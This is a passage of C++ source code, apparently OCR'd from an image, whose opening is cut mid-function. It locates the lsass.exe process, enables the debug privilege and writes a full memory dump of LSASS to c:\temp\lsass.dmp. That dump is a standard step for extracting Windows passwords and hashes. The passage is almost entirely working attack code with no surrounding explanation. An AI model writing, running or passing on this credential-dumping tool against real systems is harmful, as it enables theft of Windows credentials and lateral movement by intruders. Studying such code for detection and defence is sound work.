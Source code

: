 ```cpp
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

// set privilege
BOOL setPrivilege(LPCTSTR priv) {
  HANDLE token;
  TOKEN_PRIVILEGES tp;
  LUID luid;
  BOOL res = TRUE;

  if (!LookupPrivilegeValue(NULL, priv, &luid)) res = FALSE;

  tp.PrivilegeCount = 1;
  tp.Privileges[0].Luid = luid;
  tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

  if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) res = FALSE;
  if (!AdjustTokenPrivileges(token, FALSE, &tp, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) res = FALSE;
  printf(res ? "successfully enable %s :)\n" : "failed to enable %s :(\n", priv);
  return res;
}

// minidump lsass.exe
BOOL createMiniDump() {
  bool dumped = FALSE;
  int pid = findMyProc("lsass.exe");
  HANDLE ph = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, 0, pid);
  HANDLE out = CreateFile((LPCTSTR)"c:\\temp\\lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (ph && out != INVALID_HANDLE_VALUE) {
    dumped = MiniDumpWriteDump(ph, pid, out, (MINIDUMP_TYPE)0x00000002, NULL, NULL, NULL);
    printf(dumped ? "successfully dumped to lsaas.dmp :)\n" : "failed to dump :(\n");
  } 
  return dumped; 
}

int main(int argc, char* argv[]) {
  if (!setPrivilege(SE_DEBUG_NAME)) return -1;
  if (!createMiniDump()) return -1;
  return 0;
}
```